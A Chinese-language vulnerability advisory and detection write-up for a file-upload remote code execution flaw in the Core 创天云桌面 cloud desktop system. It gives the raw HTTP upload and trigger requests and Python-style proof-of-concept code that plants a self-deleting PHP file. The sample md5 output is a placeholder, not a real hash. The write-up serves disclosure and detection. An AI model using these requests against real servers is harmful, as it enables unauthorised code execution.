

# Core 创天云桌面系统远程代码执行漏洞（core-chuangtian-cloud-rce）

## 漏洞简介
Core 创天云桌面系统存在远程代码执行（RCE）漏洞，攻击者可通过文件上传接口上传恶意 PHP 文件，进而在服务器上执行任意代码，危害极大。

## 影响范围
- 受影响产品：Core 创天云桌面系统
- 影响版本：未加固的相关版本

## 漏洞原理
系统的 `/Upload/upload_file.php` 文件上传接口未对文件类型和内容做有效校验，攻击者可上传 PHP 脚本，随后通过 Web 路径访问并执行，实现远程代码执行。

## 利用方式与攻击流程
1. 攻击者构造 multipart/form-data POST 请求，向 `/Upload/upload_file.php?l=test` 上传恶意 PHP 文件。
2. 上传成功后，访问 `/Upload/test/{文件名}.php` 路径，触发恶意代码执行。

## 探测原理与流程
### 请求包示例
1. 上传 PHP 文件：
```http
POST /Upload/upload_file.php?l=test HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/avif

<?php echo md5("core-chuangtian-cloud-rce");unlink(__FILE__);?>
------WebKitFormBoundaryfcKRltGv--
```
2. 访问上传的 PHP 文件：
```http
GET /Upload/test/test.php HTTP/1.1
Host: target.com
```

### 响应与判定逻辑
- 响应体包含上传 PHP 文件输出的 md5 值（如 `b1e1b6a7e6e3b1e1b6a7e6e3b1e1b6a7`）。

### 伪代码
```python
# 步骤1：上传 PHP 文件
files = {'file': ('test.php', '<?php echo md5("core-chuangtian-cloud-rce");unlink(__FILE__);?>', 'image/avif')}
requests.post('http://target.com/Upload/upload_file.php?l=test', files=files)
# 步骤2：访问上传的 PHP 文件
resp = requests.get('http://target.com/Upload/test/test.php')
if '{{md5("core-chuangtian-cloud-rce")}}' in resp.text:
    print('存在远程代码执行漏洞')
```

### Mermaid 流程图


## 参考链接
- [漏洞分析与利用](https://mp.weixin.qq.com/s/wH5luLISE_G381W2ssv93g) 